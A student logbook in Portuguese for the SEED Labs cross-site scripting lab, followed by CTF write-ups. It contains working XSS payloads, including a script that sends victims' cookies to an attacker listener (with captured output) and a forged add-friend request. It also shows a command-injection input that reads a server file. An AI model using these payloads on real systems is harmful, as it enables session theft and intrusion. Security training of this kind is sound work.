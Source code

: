 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```

![](./screenshots/logbook10_task1_1.png)

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

Muito semelhante à `task 1`. Tal como é sugerido no guião, substitui-se o código JavaScript da `task 1` pelo seguinte: 

```html
<script>alert(document.cookie);</script>
```

![](./screenshots/logbook10_task2_1.png) 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` (neste caso), o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador. 

![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

Na `task 2` apenas o utilizador visualizava as suas _cookies_. Para o atacante ter acesso às mesmas é necessário modificar o código JavaScript, como é sugerido no guião, para o seguinte:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

- Nota: A explicação do código acima foi omitida, uma vez que, a mesma já se encontra no guião.

![](./screenshots/logbook10_task3.png) 

De modo a ficar à escuta na porta 5555 e imprimir o pedido HTTP GET com as _cookies_, utilizou-se o comando `nc -lknv 5555`, cujo _output_ foi o seguinte:

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

É possível verificar que as _cookies_ recebidas na máquina do atacante coincidem com as que foram impressas na `task 2`.

## Task 4: Becoming the Victim’s Friend

De modo a perceber os pedidos HTTP (e os seus parâmetros) que são enviados ao servidor quando um utilizador (neste caso Alice) adiciona `Samy` à sua lista de amigos, isto é, quando clica no botão `Add friend` no perfil de `Samy`, fez-se _log in_ como Alice (username **alice** e password **seedalice**) e clicou-se no respetivo botão. O pedido HTTP capturado encontra-se na `Preparation` e foi o seguinte:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

Analisando o pedido, verifica-se que o URL é `http://www.seed-server.com/action/friends/add` e o valor do parâmetro `friend` é **59** (ID de Samy), que é usado para especificar o utilizador que deve ser adicionado à lista de amigos. Existem dois parâmetros, `__elgg_ts` e `__elgg_token`, que são contramedidas contra ataques `CSRF`, cujos valores são específicos da página e devem ser definidos devidamente no código de modo a evitar que o pedido seja tratado como _cross-site request_. Esses valores estão atribuídos a duas variáveis - `elgg.security.token.__elgg_ts` e `elgg.security.token.__elgg_token`, sendo estas utilizadas no código esqueleto nas linhas assinaladas 1 e 2. 
Com esta informação é possível completar o código esqueleto fornecido no guião:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;

        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        // Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts;

        // Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

O código acima foi colocado no campo `About me` na página do perfil de Samy usando o `Text mode`. 
Se apenas estivesse disponível o `Editor mode` continuava a ser possível lançar um ataque bem sucedido, embora fosse mais difícil - "It should be noted that even if Elgg does not provide a plaintext editor for this field, attacks can still be launched, although they will be slightly more difficult. For example, an attacker can use a browser extension to remove those formatting data from HTTP requests, or simply sends out requests using a customized client, instead of using browsers."  

Fonte: 
- SEED book (11.2.2 Use XSS Attacks to Befriend with Others) 

![](./screenshots/lobook10_task4_1.png) 

De modo a testar o ataque, fez-se _log in_ como Boby (username **boby** e password **seedboby**), verificou-se que não tinha nenhum amigo na sua lista de amigos - "No friends yet.", em seguida a página do perfil de Samy foi visitada e automaticamente este foi adicionado à sua lista, mesmo não tendo clicado no botão `Add friend`.

![](./screenshots/lobook10_task4_2.png) 
![](./screenshots/lobook10_task4_3.png) 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy`, o código é executado e `Samy` é adicionado à lista de amigos desse utilizador. 

# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


